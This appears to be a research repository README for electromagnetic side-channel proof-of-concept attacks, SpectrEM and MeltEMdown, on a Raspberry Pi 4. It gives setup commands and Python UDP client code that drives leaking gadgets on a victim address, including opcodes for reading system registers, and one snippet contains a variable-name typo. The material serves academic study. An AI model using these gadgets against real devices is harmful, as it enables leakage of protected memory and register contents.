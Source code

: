 # Proof-of-concept implementations

This folder contains the proof-of-concept (POC) implementations of the
SpectrEM and MeltEMdown attacks. 
Note that these POCs are implemented specifically for the Raspberry Pi 4 model b.

## Setting up the target

To evaluate the POC implementations, we introduced a few simplifications in our paper to ease the evaluation process.
1. We lock the clock frequency at 600 MHz. When running Ubuntu on the Raspberry Pi, this can be done as follows:
```bash
$ sudo su
$ echo "600000" > /sys/devices/system/cpu/cpu0/cpufreq/scaling_min_freq
$ echo "600000" > /sys/devices/system/cpu/cpu0/cpufreq/scaling_max_freq
$ exit 
```
2. We lock the core to one specific core and optimize the probe position for that specific core. In our experiments, we used either core 0 or 1 as these cores exhibited the most leakage. By default, the makefile assigns the POC to core 1.
3. We add a trigger signal to the POC. By default, this will trigger GPIO pin 16 on the Raspberry Pi.

## Build

To build the POCs:  
`make all`  


## Run

To run one of the three POCs:  
`make start_spectrem_cf`  
`make start_spectrem_ins`  
`make start_meltemdown`  

To stop a running POC:  
`make stop_spectrem_cf`  
`make stop_spectrem_ins`  
`make stop_meltemdown`  

## Collecting traces  

This section gives an overview of how to interface with the POC gadgets. For an example implementation, see [collect-traces.ipynb](../scripts/collect/collect_traces.ipynb).

### SpectrEM  
A UDP interface exposes the gadgets in the POC implementations of the Spectre
attack. The following code can be used to access a given bit index of the array.  

```python
import socket
import struct

client_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
client_socket.settimeout(5)

addr = ("IP_OF_VICTIM", 10000)

def access_bit(index: int):
  message = struct.pack("<I", index)  # Note: assumes little-endianness
    
  client_socket.sendto(message, addr)
  data, _ = client_socket.recvfrom(1024)
    
  assert message == data  # Server should return the same message
```  
  
The POC implementation will clear GPIO pin 16 after each access to the gadget.
This allows the oscilloscope to be triggered.

### MeltEMdown  
The MeltEMdown POC is based on
[spec_poc_arm](https://github.com/lgeek/spec_poc_arm) by Cosmin Gorgovan. This
POC was modified to leak the contents of the system registers through the
electromagnetic covert channel leveraging instructions with operand-dependent
timings.
```python
import socket
import struct

sregs = {"ACTLR_EL1" : b"\x23\x10\x38\xd5", "ACTLR_EL2" : b"\x23\x10\x3c\xd5", "ACTLR_EL3" : b"\x23\x10\x3e\xd5", "AIDR_EL1" : b"\xe3\x00\x39\xd5", "AFSR0_EL1" : b"\x03\x51\x38\xd5", "AFSR0_EL2" : b"\x03\x51\x3c\xd5", "AFSR0_EL3" : b"\x03\x51\x3e\xd5", "AFSR1_EL1" : b"\x23\x51\x38\xd5", "AFSR1_EL2" : b"\x23\x51\x3c\xd5", "AFSR1_EL3" : b"\x23\x51\x3e\xd5", "AMAIR_EL1" : b"\x03\xa3\x38\xd5", "AMAIR_EL2" : b"\x03\xa3\x3c\xd5", "AMAIR_EL3" : b"\x03\xa3\x3e\xd5", "CCSIDR_EL1" : b"\x03\x00\x39\xd5", "CLIDR_EL1" : b"\x23\x00\x39\xd5", "CPACR_EL1" : b"\x43\x10\x38\xd5", "CPTR_EL2" : b"\x43\x11\x3c\xd5", "CPTR_EL3" : b"\x43\x11\x3e\xd5", "CSSELR_EL1" : b"\x03\x00\x3a\xd5", "CTR_EL0" : b"\x23\x00\x3b\xd5", "DISR_EL1" : b"\x23\xc1\x38\xd5", "ERRIDR_EL1" : b"\x03\x53\x38\xd5", "ERRSELR_EL1" : b"\x23\x53\x38\xd5", "ERXADDR_EL1" : b"\x63\x54\x38\xd5", "ERXCTLR_EL1" : b"\x23\x54\x38\xd5", "ERXFR_EL1" : b"\x03\x54\x38\xd5", "ERXMISC0_EL1" : b"\x03\x55\x38\xd5", "ERXMISC1_EL1" : b"\x23\x55\x38\xd5", "ERXSTATUS_EL1" : b"\x43\x54\x38\xd5", "ESR_EL1" : b"\x03\x52\x38\xd5", "ESR_EL2" : b"\x03\x52\x3c\xd5", "ESR_EL3" : b"\x03\x52\x3e\xd5", "HACR_EL2" : b"\xe3\x11\x3c\xd5", "HCR_EL2" : b"\x03\x11\x3c\xd5", "ID_AFR0_EL1" : b"\x63\x01\x38\xd5", "ID_DFR0_EL1" : b"\x43\x01\x38\xd5", "ID_ISAR0_EL1" : b"\x03\x02\x38\xd5", "ID_ISAR1_EL1" : b"\x23\x02\x38\xd5", "ID_ISAR2_EL1" : b"\x43\x02\x38\xd5", "ID_ISAR3_EL1" : b"\x63\x02\x38\xd5", "ID_ISAR4_EL1" : b"\x83\x02\x38\xd5", "ID_ISAR5_EL1" : b"\xa3\x02\x38\xd5", "ID_ISAR6_EL1" : b"\xe3\x02\x38\xd5", "ID_MMFR0_EL1" : b"\x83\x01\x38\xd5", "ID_MMFR1_EL1" : b"\xa3\x01\x38\xd5", "ID_MMFR2_EL1" : b"\xc3\x01\x38\xd5", "ID_MMFR3_EL1" : b"\xe3\x01\x38\xd5", "ID_MMFR4_EL1" : b"\xc3\x02\x38\xd5", "ID_PFR0_EL1" : b"\x03\x01\x38\xd5", "ID_PFR1_EL1" : b"\x23\x01\x38\xd5", "ID_AA64DFR0_EL1" : b"\x03\x05\x38\xd5", "ID_AA64ISAR0_EL1" : b"\x03\x06\x38\xd5", "ID_AA64ISAR1_EL1" : b"\x23\x06\x38\xd5", "ID_AA64MMFR0_EL1" : b"\x03\x07\x38\xd5", "ID_AA64MMFR1_EL1" : b"\x23\x07\x38\xd5", "ID_AA64MMFR2_EL1" : b"\x43\x07\x38\xd5", "ID_AA64PFR0_EL1" : b"\x03\x04\x38\xd5", "IFSR32_EL2" : b"\x23\x50\x3c\xd5", "LORC_EL1" : b"\x63\xa4\x38\xd5", "LORID_EL1" : b"\xe3\xa4\x38\xd5", "LORN_EL1" : b"\x43\xa4\x38\xd5", "MDCR_EL3" : b"\x23\x13\x3e\xd5", "MIDR_EL1" : b"\x03\x00\x38\xd5", "MPIDR_EL1" : b"\xa3\x00\x38\xd5", "PAR_EL1" : b"\x03\x74\x38\xd5", "RVBAR_EL3" : b"\x23\xc0\x3e\xd5", "REVIDR_EL1" : b"\xc3\x00\x38\xd5", "SCTLR_EL1" : b"\x03\x10\x38\xd5", "SCTLR_EL3" : b"\x03\x10\x3e\xd5", "TCR_EL1" : b"\x43\x20\x38\xd5", "TCR_EL2" : b"\x43\x20\x3c\xd5", "TCR_EL3" : b"\x43\x20\x3e\xd5", "TTBR0_EL1" : b"\x03\x20\x38\xd5", "TTBR0_EL2" : b"\x03\x20\x3c\xd5", "TTBR0_EL3" : b"\x03\x20\x3e\xd5", "TTBR1_EL1" : b"\x23\x20\x38\xd5", "TTBR1_EL2" : b"\x23\x20\x3c\xd5", "VDISR_EL2" : b"\x23\xc1\x3c\xd5", "VSESR_EL2" : b"\x63\x52\x3c\xd5", "VTCR_EL2" : b"\x43\x21\x3c\xd5", "VTTBR_EL2" : b"\x03\x21\x3c\xd5", "AFSR0_EL12" : b"\x03\x51\x3d\xd5", "AFSR1_EL12" : b"\x23\x51\x3d\xd5", "AMAIR_EL12" : b"\x03\xa3\x3d\xd5", "CNTFRQ_EL0" : b"\x03\xe0\x3b\xd5", "CNTHCTL_EL2" : b"\x03\xe1\x3c\xd5", "CNTHP_CTL_EL2" : b"\x23\xe2\x3c\xd5", "CNTHP_CVAL_EL2" : b"\x43\xe2\x3c\xd5", "CNTHP_TVAL_EL2" : b"\x03\xe2\x3c\xd5", "CNTHV_CTL_EL2" : b"\x23\xe3\x3c\xd5", "CNTHV_CVAL_EL2" : b"\x43\xe3\x3c\xd5", "CNTHV_TVAL_EL2" : b"\x03\xe3\x3c\xd5", "CNTKCTL_EL1" : b"\x03\xe1\x38\xd5", "CNTKCTL_EL12" : b"\x03\xe1\x3d\xd5", "CNTP_CTL_EL0" : b"\x23\xe2\x3b\xd5", "CNTP_CTL_EL02" : b"\x23\xe2\x3d\xd5", "CNTP_CVAL_EL0" : b"\x43\xe2\x3b\xd5", "CNTP_CVAL_EL02" : b"\x43\xe2\x3d\xd5", "CNTP_TVAL_EL0" : b"\x03\xe2\x3b\xd5", "CNTP_TVAL_EL02" : b"\x03\xe2\x3d\xd5", "CNTPCT_EL0" : b"\x23\xe0\x3b\xd5", "CNTPS_CTL_EL1" : b"\x23\xe2\x3f\xd5", "CNTPS_CVAL_EL1" : b"\x43\xe2\x3f\xd5", "CNTPS_TVAL_EL1" : b"\x03\xe2\x3f\xd5", "CNTV_CTL_EL0" : b"\x23\xe3\x3b\xd5", "CNTV_CTL_EL02" : b"\x23\xe3\x3d\xd5", "CNTV_CVAL_EL0" : b"\x43\xe3\x3b\xd5", "CNTV_CVAL_EL02" : b"\x43\xe3\x3d\xd5", "CNTV_TVAL_EL0" : b"\x03\xe3\x3b\xd5", "CNTV_TVAL_EL02" : b"\x03\xe3\x3d\xd5", "CNTVCT_EL0" : b"\x43\xe0\x3b\xd5", "CNTVOFF_EL2" : b"\x63\xe0\x3c\xd5", "CONTEXTIDR_EL1" : b"\x23\xd0\x38\xd5", "CONTEXTIDR_EL12" : b"\x23\xd0\x3d\xd5", "CONTEXTIDR_EL2" : b"\x23\xd0\x3c\xd5", "CPACR_EL12" : b"\x43\x10\x3d\xd5", "DACR32_EL2" : b"\x03\x30\x3c\xd5", "ESR_EL12" : b"\x03\x52\x3d\xd5", "FAR_EL1" : b"\x03\x60\x38\xd5", "FAR_EL12" : b"\x03\x60\x3d\xd5", "FAR_EL2" : b"\x03\x60\x3c\xd5", "FAR_EL3" : b"\x03\x60\x3e\xd5", "FPEXC32_EL2" : b"\x03\x53\x3c\xd5", "HPFAR_EL2" : b"\x83\x60\x3c\xd5", "HSTR_EL2" : b"\x63\x11\x3c\xd5", "ID_AA64AFR0_EL1" : b"\x83\x05\x38\xd5", "ID_AA64AFR1_EL1" : b"\xa3\x05\x38\xd5", "ID_AA64DFR1_EL1" : b"\x23\x05\x38\xd5", "ID_AA64PFR1_EL1" : b"\x23\x04\x38\xd5", "ISR_EL1" : b"\x03\xc1\x38\xd5", "LOREA_EL1" : b"\x23\xa4\x38\xd5", "LORSA_EL1" : b"\x03\xa4\x38\xd5", "MAIR_EL1" : b"\x03\xa2\x38\xd5", "MAIR_EL12" : b"\x03\xa2\x3d\xd5", "MAIR_EL2" : b"\x03\xa2\x3c\xd5", "MAIR_EL3" : b"\x03\xa2\x3e\xd5", "MDCR_EL2" : b"\x23\x11\x3c\xd5", "MVFR0_EL1" : b"\x03\x03\x38\xd5", "MVFR1_EL1" : b"\x23\x03\x38\xd5", "MVFR2_EL1" : b"\x43\x03\x38\xd5", "RMR_EL3" : b"\x43\xc0\x3e\xd5", "SCR_EL3" : b"\x03\x11\x3e\xd5", "SCTLR_EL12" : b"\x03\x10\x3d\xd5", "SCTLR_EL2" : b"\x03\x10\x3c\xd5", "SDER32_EL3" : b"\x23\x11\x3e\xd5", "TCR_EL12" : b"\x43\x20\x3d\xd5", "TPIDR_EL0" : b"\x43\xd0\x3b\xd5", "TPIDR_EL1" : b"\x83\xd0\x38\xd5", "TPIDR_EL2" : b"\x43\xd0\x3c\xd5", "TPIDR_EL3" : b"\x43\xd0\x3e\xd5", "TPIDRRO_EL0" : b"\x63\xd0\x3b\xd5", "TTBR0_EL12" : b"\x03\x20\x3d\xd5", "TTBR1_EL12" : b"\x23\x20\x3d\xd5", "VBAR_EL1" : b"\x03\xc0\x38\xd5", "VBAR_EL12" : b"\x03\xc0\x3d\xd5", "VBAR_EL2" : b"\x03\xc0\x3c\xd5", "VBAR_EL3" : b"\x03\xc0\x3e\xd5", "VMPIDR_EL2" : b"\xa3\x00\x3c\xd5", "VPIDR_EL2" : b"\x03\x00\x3c\xd5"}

client_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
client_socket.settimeout(5)

addr = ("IP_OF_VICTIM", 10000)

def access_bit(index: int, register_name: str):
  msg = struct.pack("<I", index) + sregs[regsiter_name]
    
  client_socket.sendto(msg, addr)
  data, _ = client_socket.recvfrom(1024)

  assert msg == data  # Server should return the same message
```  
The POC implementation will set GPIO pin 16 before executing the leaking instructions.
This allows the oscilloscope to be triggered.
